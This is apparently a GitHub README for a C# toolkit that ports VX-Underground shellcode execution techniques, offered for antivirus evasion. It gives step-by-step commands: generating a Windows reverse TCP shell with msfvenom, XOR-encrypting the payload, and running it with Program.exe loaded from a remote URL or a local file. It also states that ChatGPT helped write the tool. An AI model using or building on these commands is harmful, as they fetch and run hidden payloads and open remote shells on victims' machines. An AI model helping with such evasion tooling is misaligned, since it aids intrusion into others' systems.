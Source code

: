 # VXUG Shellcode Execution Converted To CSharp
Evasion - Process Creation and Shellcode Execution CSharp


I converted a bunch of the shellcode execution methods from VX-Underground.org to C# as most were in c and c++. ChatGPT helped in speeding the process along. I have added the ability to execute the shellcode from a remote or local location as well as support for xor encrypted shellcode.

The main flow should go like this


Generate shellcode however you like, this example we will use MSFVenom

msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 EXITFUNC=thread -f raw -o code.bin

![image](https://github.com/Shad0wC0ntr0ller/VXUGShellcodeExecutionCSharp/assets/90877534/db931156-2c4e-46f7-9259-377c4af05596)


Next XOR encrypt the shellcode with whatever key you like

python3 encrypt.py code.bin xored.bin XORKEY

![image](https://github.com/Shad0wC0ntr0ller/VXUGShellcodeExecutionCSharp/assets/90877534/08ff44f7-f227-4639-b9c0-c3c0f499dbfb)


Now execute your shellcode as follows

.\Program.exe -r http://10.10.10.10/xored.bin -k xorkey

Or, Execute your shellcode locally 

.\Program.exe -l C:\windows\temp\xored.bin -k xorkey

For unencrypted shellcode

.\Program.exe -l C:\windows\temp\code.bin
